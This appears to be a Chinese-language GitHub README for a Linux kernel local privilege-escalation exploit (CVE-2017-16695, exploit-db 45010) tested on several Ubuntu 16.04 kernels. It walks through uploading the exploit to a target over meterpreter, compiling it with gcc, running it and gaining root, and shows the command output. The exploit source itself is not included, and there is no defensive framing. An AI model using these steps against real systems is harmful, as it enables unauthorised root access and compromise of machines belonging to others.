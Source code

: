 # Privilege-Escalation

## 支持内核列表

- CVE-2017-16695

在以下内核的 Ubuntu 16.04 测试通过：

    4.4.0-31-generic
    4.4.0-62-generic
    4.4.0-81-generic
    4.4.0-116-generic
    4.8.0.0-58-generic
    4.10.0.42-generic
    4.13.0-21-generic

## 使用方法

下面直接演示使用方法:

下载 `45010.c`:

    

先检查目标机上是否安装 gcc：

    vir@ubuntu:~$ gcc
    gcc: fatal error: no input files
    compilation terminated.

如果有安装 gcc ，直接上传 45010.c 到目标机器上进行编译(使用 meterpreter 或者其他的方法)：

    meterpreter > upload /home/vir/45010.c /tmp/45010.c
    # 下面进行编译
    gcc 45010.c -o 45010
    # 添加执行权限
    chmod +x 45010
    ./45010
    # 成功提权到 root。
    whoami
    root

![](https://i.loli.net/2020/04/17/sQuxqvOb8GyBNR9.png)

如果目标机没有 gcc 环境，可以在本地进行编译之后上传——尽量使用和目标机发行版本、内核版本完全一致的虚拟机中编译。

## References/Resources

[https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html](https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html)

[https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)
